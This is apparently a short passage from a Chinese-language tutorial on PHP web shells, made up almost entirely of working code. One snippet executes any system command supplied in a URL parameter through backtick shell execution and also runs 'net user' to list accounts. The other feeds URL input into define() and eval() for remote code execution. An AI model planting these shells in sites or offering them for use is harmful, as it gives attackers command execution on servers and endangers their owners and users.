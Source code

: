 ![](img/9.png)

---

**可直接执行CMD命令**
```php
<?php
$cmd =base64_decode('dmVy='); // ver
echo `$cmd`. `$_GET[shell]`;  //shell_exec,执行系统命令
//或
$var = `net user`;
echo "$var";
?>

```
![](img/23.png)

**变量覆盖**
```php
<?php

    define($_GET[a], $_GET[b]);

    eval(A);

    ?>
```
